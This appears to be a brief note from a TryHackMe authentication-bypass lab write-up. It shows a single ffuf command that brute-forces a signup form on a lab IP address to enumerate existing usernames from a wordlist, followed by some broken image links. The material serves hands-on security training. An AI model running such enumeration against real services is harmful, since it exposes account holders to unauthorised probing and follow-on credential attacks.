 https://tryhackme.com/room/authenticationbypass
command bellow will output all username that are a match in the wordlist provided (names.txt) 
           
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.18.108/customers/signup -mr "username already exists"`

<figure><img src="..gitbook/assets/Captussre.JPG" alt="">
<figure><img src=".gitbook/assets/Captussre.JPG" alt=""><figcaption></figcaption></figure>

![Capture](https://github.com/user-attachments/assets/aaf91c04-0a23-4948-a1b5-d01b34b30dec)
